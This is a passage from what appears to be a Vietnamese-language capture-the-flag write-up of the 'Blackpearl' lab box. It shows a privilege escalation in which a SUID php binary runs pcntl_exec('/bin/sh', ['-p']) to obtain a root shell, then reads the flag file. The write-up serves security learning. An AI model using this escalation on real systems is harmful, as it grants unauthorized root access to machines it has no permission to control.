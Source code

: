 ./php -r "pcntl_exec('/bin/sh', ['-p']);"

Ta chỉnh lại đường dẫn php thành như sau:

www-data@blackpearl:~/blackpearl.tcm/navigate$ /usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"

</usr/bin/php7.3 -r "pcntl_exec('/bin/sh', ['-p']);"

# whoami

root

# cd root

# ls

flag.txt

# cat flag.txt

Good job on this one.

Finding the domain name may have been a little guessy,

but the goal of this box is mainly to teach about Virtual Host Routing which is used in a lot of CTF.

